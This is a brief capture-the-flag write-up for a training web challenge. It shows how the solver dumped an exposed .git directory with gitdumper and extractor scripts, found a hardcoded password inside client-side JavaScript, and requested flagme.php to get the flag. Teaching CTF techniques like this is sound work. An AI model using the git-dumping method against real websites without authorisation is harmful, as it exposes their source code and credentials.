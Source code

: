 # Training Problem: Intro to Web

Solved by: @vicevirus

## Question:
It's nice to have some training problems.

## Solution:
dump the git repo
`./gitdumper.sh https://bluehens-webstuff.chals.io/.git/ .``

extract the repo
`sudo ./extractor.sh ../Dumper/ .``

```
if (md5(password) == "1c63129ae9db9c60c3e8aa94d3e00495"){
          //You logged in!
          // password =  1qaz2wsx
          document.getElementById("page").innerHTML = "You ARE logged in... fetching flag";
          form.classList.add('hide');
          $.ajax({
              method:"get",url:"flagme.php",data:{"password":password},success: function(data){
                 $("#page").html(data);
              }
          })
          ```
Visit https://bluehens-webstuff.chals.io/flagme.php?password=1qaz2wsx
**Flag:`udctf{00ph_g1t_b4s3d_l34ks?}`** 
